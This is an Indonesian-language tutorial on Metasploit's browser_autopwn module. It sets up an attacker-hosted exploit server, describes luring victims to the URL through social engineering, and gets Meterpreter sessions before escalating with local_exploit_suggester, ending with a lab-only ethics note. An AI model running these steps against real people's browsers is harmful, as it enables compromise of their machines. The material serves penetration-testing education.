 # Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

AutoPwn adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur parameter penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

Kirim URL ke korban: http://192.168.1.100/
- Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
- Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

Cek sesi:

```
sessions -l
```

Interaksi:

```
sessions -i 1
```

### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

Langkah:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
 
Kemudian gunakan exploit yang disarankan:

```
use exploit/linux/local/xxx
set SESSION 1
run
```

## Catatan Etis dan Legal
- AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
- Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
- Risiko legal dan etika sangat tinggi jika digunakan sembarangan.

